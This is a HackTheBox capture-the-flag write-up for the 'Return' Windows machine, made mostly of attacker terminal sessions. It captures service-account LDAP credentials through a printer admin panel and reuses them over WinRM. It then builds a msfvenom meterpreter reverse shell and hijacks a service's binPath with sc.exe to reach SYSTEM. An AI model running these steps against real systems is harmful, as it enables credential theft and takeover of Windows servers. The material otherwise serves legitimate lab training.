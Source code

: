 # CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Return](https://www.hackthebox.com/machines/Return)

<img src="https://labs.hackthebox.com/storage/avatars/defa149ea7e259a4709a03a5825e970d.png" alt="Return Machine Logo" width="150"/>

- Machine type: <img src="https://hackmyvm.eu/img/windows.png" alt="Windows" width="17"/> Windows
- Machine difficulty: 🟩 Easy (3.0)

> **Return** is an easy difficulty Windows machine featuring a network printer administration panel that stores LDAP credentials. These credentials can be captured by inputting a malicious LDAP server which allows obtaining foothold on the server through the WinRM service. User found to be part of a privilege group which further exploited to gain system access.

#### Skills Learned

- **Network Printer Abuse**
- **Server Operators Group Abuse**

#### Tools Used

Linux:
- `nmap`
- `whatweb`
- `burpsuite`
- `msfvenom`
- `msfconsole`
- `netexec`
- `evil-winrm`
Windows:
- `net.exe`
- `sc.exe`

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.144  netmask 255.255.254.0  destination 10.10.14.144

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '10.129.95.241\treturn.htb' | sudo tee -a /etc/hosts

10.129.95.241	return.htb
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSV -p- return.htb -T5 --min-rate=10000

[SNIP]

PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-30 16:06:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
54394/tcp open  msrpc         Microsoft Windows RPC
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://return.htb

http://return.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.95.241], Microsoft-IIS[10.0], PHP[7.4.13], Script, Title[HTB Printer Admin Panel], X-Powered-By[PHP/7.4.13]
```

![Firefox - Return Homepage](./assets/screenshots/hackthebox_return_01.png)

**Network Printer Abuse**

![Firefox - Settings Page](./assets/screenshots/hackthebox_return_02.png)

```
┌──(nabla㉿kali)-[~]
└─$ sudo nc -lvnp 389

listening on [any] 389 ...

[CONTINUE]
```

![Burp Suite - POST Settings](./assets/screenshots/hackthebox_return_03.png)

```
[CONTINUE]

connect to [10.10.14.144] from (UNKNOWN) [10.129.95.241] 56337
0*`%return\svc-printer�
                       1edFg43012!!
```

```
┌──(nabla㉿kali)-[~]
└─$ netexec smb return.htb -u 'svc-printer' -p '1edFg43012!!'

SMB         10.129.95.241   445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.95.241   445    PRINTER          [+] return.local\svc-printer:1edFg43012!!
```

```
┌──(nabla㉿kali)-[~]
└─$ evil-winrm -i return.htb -u 'svc-printer' -p '1edFg43012!!'

[SNIP]

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> type C:\Users\svc-printer\Desktop\user.txt

a200e*************************** 🚩
```

**Server Operators Group Abuse**

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer

[SNIP]

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

```
┌──(nabla㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.144 LPORT=1337 -f exe > revsh.exe

[SNIP]

Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.10.14.144; set LPORT 1337; run"

[SNIP]

[*] Started reverse TCP handler on 10.10.14.144:1337

[CONTINUE]
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload revsh.exe

[SNIP]

Info: Uploading /home/nvbla/revsh.exe to C:\Users\svc-printer\Documents\revsh.exe
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath=C:\Users\svc-printer\Documents\revsh.exe

[SC] ChangeServiceConfig SUCCESS
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```

```
[CONTINUE]

[*] Sending stage (177734 bytes) to 10.129.95.241
[*] Meterpreter session 1 opened (10.10.14.144:1337 -> 10.129.95.241:57906) at 2025-06-30 11:38:14 -0500

(Meterpreter 1)(C:\Windows\system32) >
```

```
(Meterpreter 1)(C:\Windows\system32) > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
(Meterpreter 1)(C:\Windows\system32) > migrate -N lsass.exe

[*] Migrating from 4744 to 648...
[*] Migration completed successfully.
```

```
C:\Windows\system32> type C:\\Users\\Administrator\\Desktop\\root.txt

f7d67*************************** 🚩
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
